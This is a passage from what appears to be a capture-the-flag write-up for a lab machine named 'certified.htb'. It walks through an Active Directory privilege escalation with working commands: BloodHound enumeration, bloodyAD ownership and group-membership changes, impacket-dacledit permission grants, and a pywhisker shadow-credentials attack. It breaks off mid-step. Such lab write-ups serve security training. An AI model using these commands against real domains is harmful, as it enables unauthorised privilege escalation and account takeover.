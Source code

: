 # User Privilege Escalation
---
### 1. **Data Collection with nxc**

    - Action: Enumerated Active Directory data and found that judith.mader could modify the “Management” group.
    - Details: Used BloodHound to analyze the data collected by nxc.

### 2. **Setting Ownership**

    Used `bloodyAD` to set judith.mader as the owner of the “Management” group:

```bash
bloodyAD --host "10.10.11.41" -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

### 3. **Granting Write Permissions**

    Updated the group permissions with `dacledit.py`:

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

### 4. **Adding to Management Group**

    Added judith.mader to the “Management” group:

```bash
bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

### 5. **Exploiting KeyCredentialLink**

    Used `pywhisker` to create a certificate for management_svc:

```bash
pywhisker -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

You need to have an environment with `pyopenssl` installed, if you have the environment do a 

```bash
source /YOUR ENVIRONMENT
```

Once you have started the environment do this

```bash
pip install --upgrade pyopenssl
```

And continue with the following command
